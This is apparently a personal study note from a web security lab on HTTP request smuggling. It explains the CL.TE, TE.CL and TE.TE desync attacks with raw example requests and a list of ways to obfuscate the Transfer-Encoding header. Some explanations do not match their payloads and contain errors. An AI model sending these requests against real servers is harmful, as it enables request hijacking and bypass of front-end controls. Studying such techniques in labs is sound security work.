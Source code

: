 #http
#request-smuggling
Classic attacks:
* **CL.TE**: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. 
* **TE.CL**: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. 
* **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding header`, but one of the servers can be induced not to process it by obfuscating the header in some way. 

# CL.TE
```http
POST / HTTP/1.1
Host: 0ac8006704cb7888805bd5a00090009f.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The front-end server processes the Content-Length header and determines that the request body is 6 bytes long, up to the end of `G`. 
he back-end server processes the `Transfer-Encoding` header, treat it as 0 byte chunk and `SMUGGLED` as the start of the next HTTP request.
After the next request will reach the server, server receives request started with `GPOST ...`. 

# TE.CL
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```
Frontend process `Transfer-Encoding`, reads first chunk of 8 bytes with SMUGGLED data, then the second chunk is zero and it terminates request.
Backend processes `Content-Length` header and determines content is 3, up to the line following 8. Bytes after it are left unproccessed and will be treated as beginning of the next request.

# TE.TE: obfuscating the TE header
This technique relays on parse header implementation difference. Both servers accept TH header, but one of them doesn't process obfuscating TH header.
Examples of obfuscation:
```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
Example:
```http
POST / HTTP/1.1
Host: 0a8c007703fb2aa38074622200a4006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n
\r\n
```
(dunno why Content-Length is 15 when its clearly less)
